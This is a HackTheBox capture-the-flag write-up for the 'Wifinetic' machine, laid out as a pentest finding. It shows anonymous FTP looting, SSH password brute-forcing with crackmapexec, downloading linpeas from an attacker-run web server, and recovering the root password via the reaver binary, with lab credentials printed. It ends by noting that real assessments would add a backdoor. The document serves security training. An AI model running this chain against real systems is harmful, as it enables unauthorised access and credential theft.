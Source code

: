 ```yaml
---
title: "HTB | WIFINETIC"
date: 2024-08-19 00:00:00 +0800
categories: [HTB]
tags: [Linux]                    
---
```


![img-description](/assets/img/HTB/htb.png)

## Initial Access - Anonymous FTP Access + Credential Brute-forcing

**Vulnerability Explanation:** Anonymous access to the FTP server is allowed on the target machine. The FTP server contains sensitive information such as potential usernames and passwords. Using crackmapexec, access to the 'netadmin' account can be gained through SSH on TCP port 22.

**Vulnerability Fix:** Credentials for user 'netadmin' are compromised and should be changed immediately. Remove sensitive files from the FTP server. Remove anonymous access to the FTP server if not needed. 

**Severity:** Critical

**Steps to reproduce the attack:** Christian found ports 21,22, and 53 open on the target machine. FTP anonymous access is allowed on port 21 and it contains a sensitive set of files that can be exfiltrated and extracted. Using crackmapexec, Christian was able to brute-force login to SSH with the list of potential usernames and password. 

**Port Scan Results**

**TCP:** 21, 22, 53

**UDP:** N/A

Use nmap to scan the target for open ports.

TCP ports 21, 22, 53 were discovered.

```shell
nmap -p- -T5 -vvv -oN nmap.initial 10.10.11.247
```

![img-description](/assets/img/HTB/WIFINETIC/1.png)

FTP anonymous access is allowed on port 21. Get all of the exposed files.

```shell
ftp anonymous@10.10.11.247
```

![img-description](/assets/img/HTB/WIFINETIC/2.png)

```
mget *
```

![img-description](/assets/img/HTB/WIFINETIC/3.png)

Extract the .tar file to the working directory.

![img-description](/assets/img/HTB/WIFINETIC/4.png)

Navigate to the /etc/config directory. A potential password is found in the 'wireless' file.

![img-description](/assets/img/HTB/WIFINETIC/5.png)

Examining the /etc/passwd gives a list of potential usernames. Create a wordlist using the newly found potential credentials.

![img-description](/assets/img/HTB/WIFINETIC/6.png)

![img-description](/assets/img/HTB/WIFINETIC/7.png)

![img-description](/assets/img/HTB/WIFINETIC/8.png)

Use crackmapexec to launch a brute forcing attack against SSH. Valid credentials are found. **netadmin:VeRyUniUqWiFIPasswrd1!**

```shell
crackmapexec ssh 10.10.11.247 -u usernames.txt -p passwords.txt --continue-on-success
```

![img-description](/assets/img/HTB/WIFINETIC/9.png)

Login via SSH with the newly discovered credentials.

```
ssh netadmin@10.10.11.247
```

![img-description](/assets/img/HTB/WIFINETIC/10.png)

We have gained initial access to the target machine as user 'netadmin'.

## Privilege Escalation - Binaries with Capabilities + Vulnerable Interface

**Vulnerability Explanation:** A binary with capabilities, 'reaver', is running on the target machine. This allows us to use it in order to retrieve a potential password. The password can be used to gain root access.

**Vulnerability Fix:** Credentials for 'root' are compromised and should me changed immediately. Remove 'reaver' if not needed. 

**Severity:** Critical

**Steps to reproduce the attack:** Christian enumerated the target machine using linpeas.sh, finding an interesting file with capabilities called 'reaver'. He was able to extract the root password by running the binary and supplying the correct MAC address and interface. 

Navigate to the writeable directory '/tmp'. On Kali, open a python web sever in a directory where you have linpeas.sh. Transfer the file to the target machine. Run the script.

```shell
cd /tmp
```

```shell
python3 -m http.server 8888
```

```shell
wget http://10.10.16.3:8888/linpeas.sh .
```

```shell
chmod +x linpeas.sh
```

```shell
./linpeas.sh > linpeas.output
```

![img-description](/assets/img/HTB/WIFINETIC/11.png)

An interesting file with capabilities, 'reaver', can be found in the linpeas.sh output

![img-description](/assets/img/HTB/WIFINETIC/12.png)

![img-description](/assets/img/HTB/WIFINETIC/13.png)

It is a pentesting tool. By supplying the interface and MAC address, we will be able to see the password. Examine the available interfaces and MAC addressees on the target machine.

```shell
ifconfig
```

![img-description](/assets/img/HTB/WIFINETIC/14.png)

Test the interfaces with the MAC address. Interface 'mon0' returns a valid password for the root user. **root:WhatIsRealaAnDWhAtIsNot51121!**

![img-description](/assets/img/HTB/WIFINETIC/15.png)

Switch user to root.

```
sudo su
```

![img-description](/assets/img/HTB/WIFINETIC/16.png)

We now have root access to the target machine.

## Post Exploitation

Since this is a CTF the objective is only to retrieve the flag located in the /root directory as a privileged user. 

In a real world assessment, we would attempt to add a back door for continuous access to the machine.